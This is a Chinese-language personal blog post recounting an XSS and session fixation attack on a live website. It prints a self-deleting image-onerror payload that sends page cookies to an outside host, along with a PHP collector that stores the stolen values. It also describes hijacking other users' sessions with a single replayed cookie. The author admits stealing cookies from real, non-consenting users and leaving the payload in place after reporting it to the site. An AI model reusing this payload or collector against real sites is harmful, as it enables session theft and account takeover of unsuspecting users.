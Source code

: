 ```yaml
---
title: 'XSS注入Session Fixation攻击'
date: 2016-07-23 07:48:22
tags: 
    - '网络安全'
    - PHP
    - XSS
    - 'Session Fixation'

categories:
    - '技术分享'
---
```


第一次实地操作web渗透？

<!-- more -->

啊哈哈，结果还是喜人的，附上Cookie登陆后的图：

![Cookie 登陆](xss-session-fixation/4031893413.png)

常规信息已经打码，本次web渗透的成功原因有两个
## 1. XSS注入漏洞若干  
为啥这么说勒？若干？反正不是第一次在这个网站上发现XSS漏洞了，想我当初把XSS当作一个玩具，咳咳，，注入CSS样式表，发奇怪的帖子，就是自定义样式的帖子，嗯，后续和网站的客服妹子联系后修补了。看了《XSS跨站脚本攻击剖析与防御》后，才知道这个漏洞叫XSS注入漏洞，手痒痒，就再次对这个网站进行了测试，不测试不知道,已测试，我尼玛，，先贴测试脚本

```html
<img src="" 
onerror="var s=document.createElement('script');
s.setAttribute('src','//safe.atd3.cn/a?b='+document.domain+'&c='+document.cookie);
var b=document.all[0];
b.appendChild(s);
b.removeChild(s);
this.parentNode.removeChild(this);">
```

这是一个中规中矩的测试脚本，在网页中插入图片，由于图片没有指定的url
然后会调用`onerror`事件，在`onerror`事件中会创建一个脚本链接，发出跨站请求，请求的查询字符为网页的`cookie`和域名
反正这是我的一个简易后台代码,PHP做服务器端的

```php
<?php
$file_name='cookie.php';
if (!file_exists($file_name))
	file_put_contents($file_name,"<?php \$a=[];\n");
if (isset($_SERVER['QUERY_STRING']))
{
	file_put_contents($file_name,'$a[]=\''.$_SERVER['QUERY_STRING']."';\n",FILE_APPEND);
}
```

好了，前期准备做好了，接下来开始注入测试，，，进入网站，，
直接插入一个简单的代码

```html
<img src="" onerror="console.log('xss');">
```

这个是用来测试XSS漏洞的，，由于篇幅原因，我直接拿最致命的XSS注入载体---markdown编辑器来做示范吧,如图

![用Markdown编辑](xss-session-fixation/2242201383.png)

咳咳，，嗯，我顺带回答了问题，看看注入后的效果

![注入脚本查看](xss-session-fixation/31655912.png)

啥都木有，是不是插入失败了？不。脚本自我删除了，唯一的痕迹就在这里

![唯一的痕迹](xss-session-fixation/1244653846.png)

然后，，我们去服务器看看，，由于时原因，我就没等这个小伙子再次访问这个页面了，拿个其他小伙子的截图凑合一下，，额，四次捕获同一个小伙子

![倒霉的小伙子](xss-session-fixation/3364299923.png)

侬，这是XSS注入的后果，成功拿到了cookie，可是高兴的太早了，，如果这样就可以过了，那标题就不是混合了，，，
接下来是第二个成功原因`session fixation`漏洞

## 2. session fixation 攻击

第一次XSS攻击成功获取到了cookie，，哎，还是说说这个玩意吧，，
毕竟网站的开发者考虑到了XSS注入，却没关注到这点，开发者做过XSS防范，如图

![XSS防范](xss-session-fixation/528666995.png)

看图`HTTP`的红色标记，，这个是标记了`HttpOnly`的cookie，通过这个，我们用脚本
`document.cookie`获取的cookie就不完整了，，，如图，，

![脚本获取的cookie](xss-session-fixation/2533359386.png)

可怕。我一直在想怎么绕过这个，，可惜哦。不可以。。
还有要吐槽的是那个箭头标注的cookie名，反正我盗取的cookie都一个样，，亏我还以为他是随机生成的，哎
cookie不完整，，经过测试，，我发现特么只需要一个cookie就好了，，

![修改cookie](xss-session-fixation/3441714176.png)

通过抓包软件，抓到的数据包可以证明：

![一个cookie的GET](xss-session-fixation/3100487257.png)

然后还有更无语的,那个我特么则怎么都获取不到的`HttpOnly`的cookie直接出现在了返回的包里，也是没得讲了

![返回设置cookie](xss-session-fixation/2520477158.png)

就问傻不傻~！session fixation攻击，，？应该就是叫这个来着
咳咳咳。。。嗯，获取到的返回页面，再截图一个，，，

![返回的页面](xss-session-fixation/1298714253.png)

哎呀呀，居然是个妹子，，咳咳，单身30年，见谅（年18.。。。。。
这次漏洞危险性已经可以得到证明了，说大不大，说小不小。嗯，，，
已经和客服联系了，毕竟是朋友（关键是妹子:P），后续的自我复制就算了了。没必要搞得整个网站都挂上我的XSS不是么。。
啊哈哈，好了，总结，，

## 3. 总结
在此次渗透过程中我使用了三种方式

1. XSS 注入
2. session fixation 探测
3. iframe 劫持  
	这个东西麽。网站对其有防范。。。就不截图了

在自己设置网站的过程中，应该注意的就是一些细节问题。咳，脑残的对百度进行了session fixation试探，删除一个cookie
直接变成了未登陆状态，咳，还意外发现了这个：

![百度的招聘](xss-session-fixation/4207819758.png)

所以说，机会只留给那些有啥啥啥的人。别再感叹无法求职，或许你按一个`F12`键，求职单就来了

>本文章写作的目的不是教你如何去进行恶意的破坏活动，而是为了教你如何抵御这些攻击行为


---

刚刚又去看了下盗取的后台，尽管和网站负责人交流过过后，还是有部分脚本没删除干净，不过，怪我咯~

![后台盗取的Cookie](xss-session-fixation/2401380495.png)
![和负责人的交流](xss-session-fixation/2350100276.png)

